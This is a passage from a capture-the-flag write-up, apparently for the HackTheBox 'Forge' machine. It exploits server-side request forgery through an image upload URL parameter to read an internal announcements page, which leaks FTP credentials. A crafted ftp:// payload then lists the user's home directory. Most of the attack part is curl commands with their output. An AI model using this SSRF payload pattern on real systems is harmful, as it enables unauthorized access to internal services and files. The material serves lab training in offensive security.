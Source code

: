 checkout the announcements page by changing the URL parameter to http://admin.Forge.htb/announcements and repeating the previous steps

Response:
```bash
$curl http://forge.htb/uploads/ogKM7LMoKo0AX7DBWrtI
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```

By doing this I obtained ftp credentials, as well as information about additional usability in the admin.forge.htb upload endpoint

## Exploiting FTP upload endpoint
after doing some googling I found that I can access an ftp url with credentials by following the following url format:

	ftp://\<user\>:\<password\>@\<hostname\>.

Craft the payload:

	http://admin.Forge.htb/upload?u=ftp://user:heightofsecurity123!@Forge.htb/

Result:
```bash
curl http://forge.htb/uploads/Ck7tHDj72eAwftlND2LG
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Jan 27 16:14 user.txt
```
